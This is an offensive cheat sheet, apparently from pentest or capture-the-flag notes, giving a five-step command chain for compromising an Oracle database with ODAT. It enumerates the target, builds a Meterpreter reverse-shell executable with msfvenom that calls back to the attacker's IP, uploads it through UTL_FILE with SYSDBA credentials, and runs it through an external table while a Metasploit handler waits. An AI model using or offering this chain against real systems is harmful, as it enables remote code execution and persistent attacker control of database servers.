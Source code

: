 ### Tool: https://github.com/quentinhardy/odat/releases/

### Example usage:

#### 1) ./odat.py all -s IP_ADDRESS

#### 2) msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=OUR_IP LPORT=PORT -f exe > malicious.exe

#### 3) ./odat.py utlfile -s IP_ADDRESS -U USER -P PASSWORD -d SID --sysdba --putfile c:/malicious.exe malicious.exe

#### 4) use exploit/multi/handler (Metasploit)

#### 5)  ./odat.py externaltable -s IP_ADDRESS -U USER -P PASSWORD -d SID --sysdba --exec c:/malicious.exe
